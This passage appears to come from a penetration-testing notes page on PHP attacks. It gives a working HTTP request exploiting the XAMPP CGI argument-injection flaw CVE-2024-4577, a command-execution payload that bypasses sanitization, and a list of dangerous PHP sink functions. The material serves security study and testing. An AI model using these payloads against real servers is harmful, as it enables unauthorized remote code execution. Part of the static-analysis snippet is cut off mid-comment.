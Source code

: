 ### XAMPP CGI RCE - CVE-2024-4577

The webserver parses HTTP requests and passes them to a PHP script executing a request such as as [`http://host/cgi.php?foo=bar`](http://host/cgi.php?foo=bar&ref=labs.watchtowr.com) as `php.exe cgi.php foo=bar`, which allows a parameter injection. This would allow to inject the following parameters to load the PHP code from the body:

```jsx
-d allow_url_include=1 -d auto_prepend_file=php://input
```

Moreover, it's possible to inject the "-" param using the 0xAD character due to later normalization of PHP. Check. the exploit example from [**this post**](https://labs.watchtowr.com/no-way-php-strikes-again-cve-2024-4577/):

```jsx
POST /test.php?%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input HTTP/1.1
Host: {{host}}
User-Agent: curl/8.3.0
Accept: */*
Content-Length: 23
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive

<?php
phpinfo();
?>

```

## PHP Sanitization bypass & Brain Fuck

[**In this post**](https://blog.redteam-pentesting.de/2024/moodle-rce/) it's possible to find great ideas to generate a brain fuck PHP code with very few chars being allowed.\
Moreover it's also proposed an interesting way to execute functions that allowed them to bypass several checks:

```php
(1)->{system($_GET[chr(97)])}
```

## PHP Static analysis

Look if you can insert code in calls to these functions (from [here](https://www.youtube.com/watch?v=SyWUsN0yHKI&feature=youtu.be)):

```php
exec, shell_exec, system, passthru, eval, popen
unserialize, include, file_put_cotents
$_COOKIE | if #This mea
```

If yo are debugging a PHP application you can globally enable error printing in`/etc/php5/apache2/php.ini` adding `display_errors = On` and restart apache : `sudo systemctl restart apache2`
